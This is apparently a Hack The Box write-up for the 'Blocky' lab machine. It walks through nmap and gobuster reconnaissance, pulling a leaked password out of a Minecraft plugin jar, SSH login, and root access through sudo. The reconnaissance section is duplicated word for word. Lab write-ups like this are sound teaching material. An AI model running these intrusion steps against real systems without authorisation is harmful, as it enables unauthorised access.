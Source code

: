 ```yaml
---
layout: single
title: Blocky - Hack The Box
excerpt: "Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector: Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators. "
date: 2025-05-09
classes: wide
header:
  teaser: /img2/blocky.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - WordPress Enumeration
  - Information Leakage
  - Analyzing a jar file - JD-Gui + SSH Access
  - Abusing Sudoers Privilege [Privilege Escalation]
---
```



## Reconnaissance

- Nmap 

```bash
nmap --open -sS -p- --min-rate 5000 -vvv -Pn 10.10.10.37
```

![](/img2/Pasted%20image%2020250509094207.png)

- Vulnerability and version scan with nmap

```bash
nmap -sCV -vvv 10.10.10.37
```

![](/img2/Pasted%20image%2020250509094407.png)

- Add domain to local DNS

```bash
echo "10.10.10.37 blocky.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://blocky.htb/
```

![](/img2/Pasted%20image%2020250509094621.png)

- Find Wordpress admin

![](/img2/Pasted%20image%2020250509094917.png)

![](/img2/Pasted%20image%2020250509095007.png)

![](/img2/Pasted%20image%2020250509095317.png)

- Gobuster

```bash
gobuster dir -u http://blocky.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 
```

![](/img2/Pasted%20image%2020250509100337.png)



## Reconnaissance

- Nmap 

```bash
nmap --open -sS -p- --min-rate 5000 -vvv -Pn 10.10.10.37
```

![](/img2/Pasted%20image%2020250509094207.png)

- Vulnerability and version scan with nmap

```bash
nmap -sCV -vvv 10.10.10.37
```

![](/img2/Pasted%20image%2020250509094407.png)

- Add domain to local DNS

```bash
echo "10.10.10.37 blocky.htb" >> /etc/hosts
```

- Whatweb

```bash
whatweb http://blocky.htb/
```

![](/img2/Pasted%20image%2020250509094621.png)

- Find Wordpress admin

![](/img2/Pasted%20image%2020250509094917.png)

![](/img2/Pasted%20image%2020250509095007.png)

![](/img2/Pasted%20image%2020250509095317.png)

- Gobuster

```bash
gobuster dir -u http://blocky.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 
```

![](/img2/Pasted%20image%2020250509100337.png)


## Exploitation

- Check .jar files in /plugins

![](/img2/Pasted%20image%2020250509100444.png)

```bash
7z x BlockyCore.jar
strings com/myfirstplugin/BlockyCore.class
```

![](/img2/Pasted%20image%2020250509100748.png)

- Connect ssh

```bash
ssh notch@10.10.10.37
```

![](/img2/Pasted%20image%2020250509100951.png)

## Post-exploitation

- Check notch groups

```bash
id
```

![](/img2/Pasted%20image%2020250509110400.png)

```bash
sudo su
```


![](/img2/Pasted%20image%2020250509103257.png)